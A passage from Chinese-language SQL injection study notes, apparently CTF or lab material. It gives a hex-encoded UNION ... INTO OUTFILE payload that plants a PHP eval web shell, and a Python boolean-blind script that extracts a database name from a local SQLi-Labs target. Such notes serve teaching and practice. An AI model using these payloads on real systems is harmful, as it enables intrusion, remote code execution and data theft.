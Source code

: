 >   |    18446744073709552000 |
>   +-------------------------+
>   ```

？？？？？[HarekazeCTF2019]Sqlite Voting TODO：？？？？？？？

https://zhzhdoai.github.io/2019/11/08/HarekazeCTF2019-WEB%E9%A2%98%E8%A7%A3/#Sqlite-Voting

## §3.2 文件注入

> 注意：该注入需要确保`secure_file_priv`的值非`NULL`，详见[§1.2.7 MySQL的`secure_file_priv`参数](#§1.2.7 MySQL的`secure_file_priv`参数)一节。

构造PHP WebShell：

```sql
?id=1')) union select null,0x3c3f70687020406576616c28245f504f53545b277368656c6c275d293b203f3e,null into outfile '/var/www/html/shell.php' --+
```

## §3.3 盲注（Bind Inject）

### §3.3.1 布尔盲注（Boolean Based）

如果成功与失败均无回显，但是查询成功/失败的特征差别非常显著，可以考虑使用布尔盲注。

下面是一个用于获取数据库名的脚本，使用穷举法。令数据库名长度为$m$，ASCII码取值范围为$n$，则时间复杂度为$O(mn^2)$：

```python
import requests

MAX_FILED_LENGTH = 20
URL_PREFIX = "http://localhost/SQLi-Labs/Less-8/"

databaseLength = 0
URL = URL_PREFIX + "?id=1' and length(database())={} --+"
for filedLength in range(1,MAX_FILED_LENGTH+1):
    result = requests.get(URL.format(filedLength))
    if "You are in..........." in result.text:
        databaseLength = filedLength
        print("数据库名长度共{}位".format(filedLength))
        break

databaseName = ""
URL = URL_PREFIX + "?id=1' and ascii(substr((select database()),{},1)) = {}--+"
for filedLength in range(1, databaseLength+1):  # substr()是从1开始数的，而不是0
    for characterAscii in range(0, 128):
        result = requests.get(URL.format(filedLength, characterAscii))
        if "You are in..........." in result.text:
            databaseName += chr(characterAscii)
            print(databaseName)
            break
```
